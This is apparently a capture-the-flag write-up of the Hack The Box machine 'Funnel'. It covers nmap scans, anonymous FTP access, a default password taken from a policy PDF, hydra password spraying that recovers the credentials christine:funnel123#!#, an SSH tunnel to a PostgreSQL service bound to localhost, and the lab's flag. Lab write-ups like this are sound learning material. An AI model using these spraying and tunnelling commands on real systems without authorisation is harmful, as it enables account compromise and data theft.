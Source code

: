 # Funnel

> 10.129.228.195

## Nmap
```
nmap 10.129.228.195
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-13 19:33 EDT
Nmap scan report for 10.129.228.195
Host is up (0.039s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
```
```
nmap -sS -sV -sC -O -p 21,22 -T4 10.129.228.195
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-13 19:35 EDT
Nmap scan report for 10.129.228.195
Host is up (0.043s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 4.15 - 5.8 (96%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.5 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 - 5.4 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.02 seconds
```

## FTP Enumeration
```
nmap --script ftp-anon -p 21 10.129.228.195
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-13 19:37 EDT
Nmap scan report for 10.129.228.195
Host is up (0.040s latency).

PORT   STATE SERVICE
21/tcp open  ftp
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    2 ftp      ftp          4096 Nov 28  2022 mail_backup

Nmap done: 1 IP address (1 host up) scanned in 0.60 seconds
```
## FTP Login
1. Logged in as `anonymous` (no password/null password)
2. Did a `pwd` and was in a root directory for ftp (not the actual root)
3. Did an `ls` and saw there was one subdir: `mail_backup`
4. `cd` into the subdir and an `ls` revealed two files that I downloaded:

```
ftp> ls
229 Entering Extended Passive Mode (|||6644|)
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp         58899 Nov 28  2022 password_policy.pdf
-rw-r--r--    1 ftp      ftp           713 Nov 28  2022 welcome_28112022
226 Directory send OK.

ftp> get password_policy.pdf
local: password_policy.pdf remote: password_policy.pdf
229 Entering Extended Passive Mode (|||38072|)
150 Opening BINARY mode data connection for password_policy.pdf (58899 bytes).
100% |**************************************************************************************************************| 58899      695.91 KiB/s    00:00 ETA
226 Transfer complete.
58899 bytes received in 00:00 (474.45 KiB/s)

ftp> get welcome_28112022
local: welcome_28112022 remote: welcome_28112022
229 Entering Extended Passive Mode (|||56481|)
150 Opening BINARY mode data connection for welcome_28112022 (713 bytes).
100% |**************************************************************************************************************|   713       13.87 MiB/s    00:00 ETA
226 Transfer complete.
713 bytes received in 00:00 (34.43 KiB/s)
```

## password_policy.pdf
- Doc says: "...the default password of “funnel123#!#” must be changed immediately."
- The `welcome` file is the same as the `password` file.

## Users
- Need for find a list of users on the target to try the password.
- Or... password spraying: "Password spraying is a type of brute force attack which involves a malicious actor attempting to use the same password on multiple accounts before moving on to try another one."

```
hydra -L /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt -p 'funnel123#!#' 10.129.228.195 ftp                                     
[21][ftp] host: 10.129.228.195   login: ftp   password: funnel123#!#
1 of 1 target successfully completed, 1 valid password found
```

- Logged in with that user and didn't get anywhere. Used a different username list.
- Ran `hydra` and it crashed the target. Had to reset and tweak the timing (`-t`) of `hydra`.

> reset: 10.129.34.254

```
hydra -L /usr/share/wordlists/rockyou.txt -p 'funnel123#!#' 10.129.34.254 ftp -I -t 3
[21][ftp] host: 10.129.34.254   login: christine   password: funnel123#!#
```

## SSH
- used the creds `christine:funnel123#!#` to login via ssh.
- I could login but that didn't get me anywhere

## PostgreSQL
- TCP port is open 5432 (do a better nmap scan!! The question to answer on HTB led me to this port; I didn't find it)
- That port is used by PostgreSQL and it only listens only on localhost so if you want to connect remotely, you have to use ssh...
- Since you can't access PostgreSQL from the local machine, you will have to create a tunnel with local port forwarding
- Ref: https://www.postgresql.org/docs/current/ssh-tunnels.html

### SSH Tunneling to PostgreSQL
- Following the reference link above, I did: 
```
ssh -L 63333:localhost:5432 christine@10.129.34.254
psql -h localhost -p 63333 --username=christine postgres

# Result: postgres prompt...

postgres=# 
postgres-# \?     # for help
postgres-# \l     # list all databases
                                                        List of databases                                                                                   
   Name    |   Owner   | Encoding | Locale Provider |  Collate   |   Ctype    | ICU Locale | ICU Rules |    Access privileges                               
-----------+-----------+----------+-----------------+------------+------------+------------+-----------+-------------------------                           
 christine | christine | UTF8     | libc            | en_US.utf8 | en_US.utf8 |            |           |                                                    
 postgres  | christine | UTF8     | libc            | en_US.utf8 | en_US.utf8 |            |           |                                                    
 secrets   | christine | UTF8     | libc            | en_US.utf8 | en_US.utf8 |            |           |                                                    
 template0 | christine | UTF8     | libc            | en_US.utf8 | en_US.utf8 |            |           | =c/christine           +                           
           |           |          |                 |            |            |            |           | christine=CTc/christine                            
 template1 | christine | UTF8     | libc            | en_US.utf8 | en_US.utf8 |            |           | =c/christine           +                           
           |           |          |                 |            |            |            |           | christine=CTc/christine                            
(5 rows)  

postgres-# \c secrets      # connect to database
psql (16.2 (Debian 16.2-1), server 15.1 (Debian 15.1-1.pgdg110+1))                                                                                          
You are now connected to database "secrets" as user "christine". 

secrets-# \dt               # list all database tables
 public | flag | table | christine

secrets=# SELECT * FROM flag;
 cf277664b1771217d7006acdea006db1

```

![image](https://github.com/GregKedrovsky/Hacking/assets/26492233/f3392c77-027b-497e-abd6-4b6218651a92)

